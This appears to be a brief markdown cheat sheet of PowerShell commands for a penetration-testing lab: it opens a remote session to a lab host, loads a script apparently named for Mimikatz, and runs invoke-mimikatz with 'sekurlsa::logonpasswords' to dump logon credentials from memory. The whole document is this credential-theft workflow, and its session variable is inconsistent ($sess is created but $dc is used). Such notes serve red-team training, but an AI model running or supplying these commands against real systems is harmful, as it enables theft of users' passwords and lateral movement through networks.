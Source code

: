 # Powershell

## Commands

### Create a remote session

```text
$sess = New-PSSession -ComputerName lab.test.local
```

### Load a script 

```text
Invoke-Command  -FilePath{C:\temp\mimi.ps1} -Session $dc
```

### Execute the script

```text
 Invoke-Command -ScriptBlock{invoke-mimikatz -command '"sekurlsa::logonpasswords"'} $dc
```




